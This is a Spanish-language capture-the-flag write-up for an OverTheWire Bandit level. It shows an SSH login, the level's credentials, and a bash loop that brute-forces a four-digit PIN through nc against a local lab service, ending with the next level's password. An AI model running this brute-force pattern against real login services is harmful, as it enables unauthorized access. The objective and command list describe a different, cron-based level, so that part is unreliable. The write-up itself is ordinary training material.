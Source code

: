 ## Objetivo

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.
## Datos de Acceso al Nivel

```
username: bandit24
psw: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

## Solución
```bash
C:\Users\pac61>ssh bandit24@bandit.labs.overthewire.org -p 2220
                         _                     _ _ _
                        | |__   __ _ _ __   __| (_) |_
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_
                        |_.__/ \__,_|_| |_|\__,_|_|\__|


                      This is an OverTheWire game server.
            More information on http://www.overthewire.org/wargames

bandit24@bandit.labs.overthewire.org's password:

bandit24@bandit:~$ for i in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i ; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
^C
bandit24@bandit:~$ for i in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i ; done | nc localhost 30002 | grep
 -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

# Información obtenida
```
pwd level 25: iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
## Notas Adicionales
- grep -v mensaje / filtra todas las líneas que no contengan el mensaje
-  
# Commands you may need to solve this level
cron, crontab, crontab(5) (use “man 5 crontab” to access this)
## Referencias
- [¿Qué es cron?](https://opensource.com/article/21/7/cron-linux#:~:text=SA%20Seth%20Kenlon-,The%20cron%20system%20is%20a%20method%20to%20automatically%20run%20commands,user%20to%20automate%20their%20computer.)